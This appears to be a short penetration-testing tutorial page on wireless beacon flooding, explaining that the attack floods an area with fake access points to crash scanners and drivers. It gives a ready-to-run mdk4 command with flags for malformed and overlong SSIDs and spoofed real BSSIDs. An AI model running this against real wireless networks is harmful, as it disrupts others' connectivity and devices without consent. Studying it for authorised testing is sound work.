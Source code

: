 # Beacon Flooding

## Intro

This is a fun attack, but you can crash network scanners and even drivers! In this attack the attacker **creates a lot of fake access points**.

<figure><img src="https://www.cse.wustl.edu/~jain/cse571-07/ftp/wireless_hacking/fig3.gif" alt=""><figcaption></figcaption></figure>

```
# -a Use also non-printable caracters in generated SSIDs and create SSIDs that break the 32-byte limit
# -w n (create Open) t (Create WPA/TKIP) a (Create WPA2/AES)
# -m use real BSSIDS. This is to use BSSIDS that really exists
# All the parameters are optional and you could load ESSIDs from a file
mdk4 wlan0mon b -a -w nta -m
```
